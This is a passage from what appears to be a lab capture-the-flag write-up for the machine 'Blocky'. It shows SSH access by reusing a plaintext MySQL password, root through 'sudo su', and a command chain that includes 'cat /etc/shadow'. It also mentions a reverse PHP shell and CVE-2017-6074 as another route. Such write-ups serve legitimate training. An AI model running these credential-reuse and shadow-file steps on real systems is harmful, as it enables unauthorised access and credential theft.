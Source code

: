 While possible to login to PHPMyAdmin with these credentials, it is not the intended method for
initial access. The PHPMyAdmin route is far more complex, and involves changing the Wordpress
administrator password, creating a reverse PHP shell and escalating from the www-data user via
the DCCP Double-Free technique (CVE-2017-6074).
The intended method for this machine is a simple username and password reuse. Attempting to
connect via SSH to the notch user (username discovered in the Wordpress post) and supplying
the MySQL root password gives immediate access.

```bash
ssh notch@10.129.1.53 
```
or 
```bash
sshpass -p '8YsqfCTnvxAUeduzjNSXe22' ssh notch@10.129.1.53
```
```bsah
The authenticity of host '10.129.1.53 (10.129.1.53)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.53' (ED25519) to the list of known hosts.
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
notch@Blocky:~$ id 
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$  
```

# Escalate Privileges

```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# id && /sbin/ifconfig && uname -a && cat /etc/shadow && ls -lah /root
uid=0(root) gid=0(root) groups=0(root)
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:8b:88  
          inet addr:10.129.1.53  Bcast:10.129.255.255  Mask:255.255.0.0
          inet6 addr: dead:beef::250:56ff:feb9:8b88/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:8b88/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:150313 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13667 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:10468555 (10.4 MB)  TX bytes:6147832 (6.1 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:1314 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1314 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:126006 (126.0 KB)  TX bytes:126006 (126.0 KB)

```